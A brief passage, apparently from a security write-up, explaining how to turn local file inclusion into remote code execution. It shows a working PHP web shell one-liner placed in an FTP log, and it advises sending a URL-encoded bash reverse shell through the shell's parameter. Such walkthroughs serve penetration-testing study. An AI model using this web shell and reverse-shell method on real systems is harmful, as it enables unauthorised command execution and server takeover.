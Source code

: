 ![](screenshots/lfi-to-rce.png)

add php web shell in ftp log file and execute it with lfi.
```bash
'<?php system($_GET['c']); ?>'
```

request parameter `c` and send url encoded bash reverse shell with it.
